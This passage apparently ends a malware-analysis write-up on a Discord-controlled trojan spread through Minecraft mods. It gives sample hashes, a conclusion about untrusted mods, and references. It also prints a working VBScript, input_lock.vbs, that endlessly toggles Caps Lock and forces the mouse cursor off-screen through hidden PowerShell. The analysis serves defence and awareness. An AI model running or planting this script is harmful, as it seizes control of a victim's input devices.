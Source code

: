 ### Hashes

| Algorithm | Hash Value                                                                                                                       |
| --------- | -------------------------------------------------------------------------------------------------------------------------------- |
| MD5       | df9a2e2d8dcb8c8599ed3d9b64a96c9c                                                                                                 |
| SHA-1     | 56e71cbcac7562ed0fc3ceadbfb79b5ab6ef230e                                                                                         |
| SHA-224   | 6ae3e04b0dfa8f6000a75cb479a347b0f473a4b33097ddedb2ab1293                                                                         |
| SHA-256   | f07018649beabceb8e67a13964e132f21638c1878c2259390320ca8fb4a145a6                                                                 |
| SHA-384   | 4f0eab97c9b329270a1517025d1c85fb591603fc45acca478ad3ec1e0e0c99301ea410949c072200d3334bd273aad9f1                                 |
| SHA-512   | 1f7c732e6903fabf985fafe90b628c4dcd5b96b92807b83420b8d1bab4de91267508e33ca0ad1402ba200159a2d8c411227fd9265a5ae3b779318f9928bce3b8 |


### input_lock.vbs
```vb
Set WShell = CreateObject("WScript.Shell")

While True
    WShell.SendKeys "{CAPSLOCK}"
    WShell.Run "powershell -Command \\"Add-Type -TypeDefinition 'using System; using System.Runtime.InteropServices; public class Mouse { [DllImport(\\\\\\"user32.dll\\\\\\")] public static extern bool SetCursorPos(int X, int Y); }'; [Mouse]::SetCursorPos(-999999, -999999)\\"", 0, False
    WScript.Sleep 1
Wend

```
{: file="input_lock.vbs" }

## Conclusion
This malware shows the capabilities hackers have by utilizing free infrastructure like Discord and Hastebin. RATs have become increasingly common in the Minecraft modding community, with projects like [Is This a RAT?](https://isthisarat.com) and [RatRater](https://ktibow.github.io/RatRater/) being used to help users find if the mod they downloaded is a RAT. Nonetheless, this malware highlights the dangers of downloading untrustworthy mods and running them with your game.

## References

[^1]: https://en.wikipedia.org/wiki/Discord

[^2]: https://en.wikipedia.org/wiki/Discord#Developer_tools_and_bots

[^3]: https://docs.statbot.net/docs/guide/bot/

[^4]: https://yoyofumedia.com/rise-of-discord/

[^5]: https://www.techradar.com/news/this-nasty-trojan-uses-discord-as-a-command-and-control-server

[^6]: https://thehackernews.com/2024/01/ns-stealer-uses-discord-bots-to.html

[^7]: https://www.ibm.com/think/x-force/self-checkout-discord-c2

[^8]: https://github.com/Harry282/FunnyMap

[^9]: https://skyblockmods.net/mods/oringo-client

[^10]: https://www.clrn.org/what-to-do-if-someone-has-your-discord-token/

[^11]: https://www.howtogeek.com/321581/what-is-client-server-runtime-process-csrss.exe-and-why-is-it-running-on-my-pc/

[^12]: https://hst.sh/about.md

[^13]: https://chattriggers.com/slate/#introduction

[^14]: https://chattriggers.com/javadocs/-chat-triggers/com.chattriggers.ctjs.minecraft.libs/-file-lib/get-url-content.html
